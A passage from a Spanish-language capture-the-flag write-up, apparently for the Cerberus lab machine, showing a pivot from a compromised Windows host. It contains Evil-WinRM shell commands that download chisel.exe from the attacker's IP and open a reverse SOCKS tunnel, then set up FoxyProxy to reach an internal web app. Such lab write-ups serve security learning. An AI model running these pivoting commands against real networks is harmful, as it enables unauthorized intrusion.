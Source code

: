Buscando por internet vemos que es una aplicación web del estilo auto servicio para la seguridad de empresas. Cuenta con carácteristicas como un gestor de contraseñas, SSO (Single e Sign-On) y una política Zero Trust.

Mirando por los archivos vemos que es la versión 6.2, y el puerto por defecto que utiliza es el 8888... vamos a pasárnoslo a nuestro equipo con Chisel también, pero en vez de redirigirnos un solo puerto vamos a hacer que la máquina actue como un proxy para nosotros poniendo de parámetro en el cliente `R:socks`

```powershell
*Evil-WinRM* PS C:\Users\matthew\AppData\Local\Temp> curl -o thingy.exe http://10.10.16.59:8000/chisel.exe
*Evil-WinRM* PS C:\Users\matthew\AppData\Local\Temp> .\thingy.exe client 10.10.16.59:8081 R:socks
```

Para utilizar este proxy que por defecto Chisel, expondrá en el puerto 1080 a través del protocolo SOCKS5 vamos a requerir de alguna extensión de navegador o software que nos permita hacer conexiones a través de él. Yo en mi caso utilizaré el [FoxyProxy](https://addons.mozilla.org/es/firefox/addon/foxyproxy-standard/) de Firefox.

![FoxyProxy](/assets/writeups/cerberus/6.png)

Con esta configuración, intentando acceder al puerto 8888 nos llevará a un montón de redirecciones a dominios que vamos a tener que ir agregando a nuestro /etc/hosts para que podamos llegar al aplicativo web. Luego de un ratito por fin logramos ver algo:
